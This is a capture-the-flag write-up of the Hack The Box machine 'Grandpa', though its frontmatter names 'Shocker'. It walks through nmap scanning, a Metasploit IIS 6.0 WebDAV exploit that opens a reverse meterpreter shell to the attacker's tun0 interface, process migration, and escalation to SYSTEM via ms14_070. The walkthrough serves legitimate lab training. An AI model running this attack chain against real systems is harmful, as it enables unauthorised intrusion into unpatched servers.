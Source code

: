 ```yaml
---
description: Walkthrough of the HTB machine "Shocker"
---
```


# 🧓 Grandpa (10.10.10.14)

## Scanning

Let's start with the usual Nmap scan:

```bash
nmap -T5 -A 10.10.10.14

Starting Nmap 7.92 ( https://nmap.org ) at 2024-03-08 12:57 UTC
Nmap scan report for 10.10.10.14
Host is up (0.15s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-title: Under Construction
|_http-server-header: Microsoft-IIS/6.0
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Date: Fri, 08 Mar 2024 12:58:02 GMT
|_  Server Type: Microsoft-IIS/6.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2003|2008|XP|2000 (91%)
OS CPE: cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_server_2008::sp2 cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_2000::sp4
Aggressive OS guesses: Microsoft Windows Server 2003 SP2 (91%), Microsoft Windows Server 2003 SP1 or SP2 (91%), Microsoft Windows 2003 SP2 (91%), Microsoft Windows Server 2008 Enterprise SP2 (90%), Microsoft Windows XP SP3 (90%), Microsoft Windows 2000 SP4 or Windows XP Professional SP1 (90%), Microsoft Windows XP (87%), Microsoft Windows 2000 SP4 (87%), Microsoft Windows Server 2003 SP1 - SP2 (86%), Microsoft Windows XP SP2 or Windows Server 2003 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   148.37 ms 10.10.14.1
2   148.68 ms 10.10.10.14

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.38 seconds
```



## Enumeration

When performing a Pentest, a CTF, or any kind of ethical hacking-related activities, we should always first check the version of the service running on the target and search for exploits linked to said version.

In this case, we can see that Port 80 is running Microsoft IIS v6.0, so let's check for any exploits related to this.

```bash
searchsploit iis 6.0
```

<figure><img src="../.gitbook/assets/image (42).png" alt=""><figcaption><p>Multiple options of exploits for Microsoft IIS 6.0</p></figcaption></figure>

## Exploitation

We can use Metasploit to search for any modules that are capable of giving us a shell on the target:

```bash
msf6 > search iis 6.0

msf6 > use exploit/windows/iis/iis_webdav_scstoragepathfromurl

msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set rhosts 10.10.10.14

msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set lhost tun0

msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > run
```

<figure><img src="../.gitbook/assets/image (43).png" alt=""><figcaption><p>We have access to the machine</p></figcaption></figure>

## Post-Exploitation / Privilege Escalation

Now, since we have a "_meterpreter_" session, we can background this session and try to look for post-exploitation modules available for Windows in Metasploit.

We can use the following module to provide Exploit Suggestions:

```bash
msf6 > use post(multi/recon/local_exploit_suggester)

msf6 post(multi/recon/local_exploit_suggester) > set session <session number>

msf6 post(multi/recon/local_exploit_suggester) > run
```

<figure><img src="../.gitbook/assets/image (44).png" alt=""><figcaption><p>Exploit Suggestions</p></figcaption></figure>

Before we use any exploits, let's switch to a process running under "NT AUTHORITY\NETWORK SERVICE". To do this, let's first list the processes running:

```bash
meterpreter > ps
```

<figure><img src="../.gitbook/assets/image (45).png" alt=""><figcaption><p>Processes running under NT AUTHORITY\NETWORK SERVICE</p></figcaption></figure>

Now, let's simply migrate from one process to another using meterpreter:

```bash
meterpreter > migrate 2352
```

<figure><img src="../.gitbook/assets/image (46).png" alt=""><figcaption><p>Process Migration</p></figcaption></figure>

Now we run one of the exploits suggested as we saw earlier:

```bash
meterpreter > background

msf6 exploit(windows/local/ms14_070_tcpip_ioctl) > run
```

<figure><img src="../.gitbook/assets/image (47).png" alt=""><figcaption><p>We have system</p></figcaption></figure>

Now we're "system" and we have fully rooted this machine.

### User Flag

The user flag is located in the following Directory:

```powershell
C:\Documents and Settings\Harry\Desktop
```

<figure><img src="../.gitbook/assets/image (48).png" alt=""><figcaption><p>User Flag</p></figcaption></figure>

### Root Flag

The root flag is located in the following Directory:

```powershell
C:\Documents and Settings\Administrator\Desktop
```

<figure><img src="../.gitbook/assets/image (49).png" alt=""><figcaption><p>Root Flag</p></figcaption></figure>

And this was the CTF!&#x20;

Thank you so much for taking the time to read my WriteUp!

See you in another box!
